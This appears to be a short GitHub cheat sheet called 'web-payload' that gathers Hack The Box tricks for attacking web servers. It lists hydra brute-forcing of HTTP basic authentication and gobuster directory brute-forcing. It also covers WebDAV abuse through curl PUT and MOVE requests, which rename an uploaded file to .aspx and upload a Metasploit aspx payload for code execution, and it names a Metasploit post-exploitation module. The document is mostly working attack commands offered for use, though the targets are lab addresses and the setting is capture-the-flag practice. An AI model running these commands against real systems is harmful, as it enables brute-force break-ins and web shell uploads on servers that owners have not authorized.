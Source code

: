 # web-payload  
Portal for any payload  
# Trick from Hack The Box
trick from hack the box
## Brute force web application 
### Basic Authentication  
`hydra -L usernames -P passwords -s 8080 -f <domain> http-get /`  
## Directory Bruteforcing
`gobuster -w <Wordlist> -u http://10.10.10.15 -t 50 -x aspx,txt,html  `  
## WebDav
`davtest -url http://<IP>`  
### Manual  
```
echo 0xdf > test.txt  
root@kali# curl -X PUT http://10.10.10.15/df.txt -d @test.txt  
root@kali# curl http://10.10.10.15/df.txt  
```
or  
  
`curl -X PUT http://10.10.10.15/df.aspx -d @test.txt`  
  
### Manual for MOVE Method  
```
curl -X MOVE -H 'Destination:http://10.10.10.15/0xdf.aspx' http://10.10.10.15/0xdf.txt  
curl -X PUT http://10.10.10.15/met.txt --data-binary @met.aspx 
```
  
## Metasploit post exploitation
`post/multi/recon/local_exploit_suggester`  
